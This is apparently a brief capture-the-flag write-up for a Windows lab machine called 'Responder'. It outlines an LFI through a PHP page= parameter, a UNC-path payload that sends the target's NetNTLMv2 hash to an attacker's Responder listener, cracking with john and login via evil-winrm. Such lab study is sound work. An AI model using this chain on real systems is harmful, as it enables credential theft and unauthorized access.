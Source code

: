 ```yaml
---
description: Windows, LFI, SMB Responder, evil-winrm
---
```


# Responder

Ports:&#x20;

* 80 (http)
* 5985 (wsman): Allows PowerShell remote connections throught a WinRM endpoint.

### Process

1. LFI on the web application. PHP include() with `page=`
2. Because is a Windows machine, we try to obtain a NetNTLMv2 using Responder and the payload `\\ownIP\anycode`
3. After obtaining the NetNTLMv2, crack it using john
4. Connect with evil-winrm using the discovered credentials
